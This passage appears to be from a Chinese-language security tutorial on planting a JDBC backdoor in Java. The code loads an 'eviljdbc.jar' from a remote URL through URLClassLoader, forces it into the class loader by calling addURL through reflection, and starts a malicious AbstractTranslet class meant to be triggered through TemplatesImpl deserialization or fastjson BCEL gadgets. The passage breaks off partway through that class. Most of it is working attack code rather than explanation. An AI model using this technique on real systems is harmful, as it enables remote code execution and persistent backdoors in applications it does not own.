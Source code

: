 ## 远程加载Jar包

我们知道，通过URLClassLoader可以远程加载一个jar包，实例化其中的类

```
URL url = new URL("http://127.0.0.1:8888/eviljdbc.jar");
URLClassLoader urlClassLoader = new URLClassLoader(new URL[]{url});
urlClassLoader.loadClass("com.mysql.fake.jdbc.MySQLDriver").newInstance();
```

但是呢，我们通过SPI实现JDBC后门需要加载整个jar包，所以需要用URLClassLoader的addURL来加载jar包

```
URLClassLoader loader = (URLClassLoader) eviltest.class.getClassLoader();
URL url = new URL("http://127.0.0.1:8888/eviljdbc.jar");

Class clazz = Class.forName("java.net.URLClassLoader");
Method method = clazz.getDeclaredMethod("addURL", URL.class);
method.setAccessible(true);
method.invoke(loader,url);
//loader.loadClass("com.mysql.fake.jdbc.MySQLDriver").newInstance();
DriverManager.getConnection("aa");
```

![image-20221201122222628](images/15.png)

既然可以这样去远程加载jar包的话，那就可以去写一个恶意类了

这样就可以在一些地方（反序列化调用TemplatesImpl的时候，fastjson调用BCEL的时候）

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;

public class loadJar extends AbstractTranslet {

    static {
        String url = "http://127.0.0.1:8888/eviljdbc.jar";
        try {
```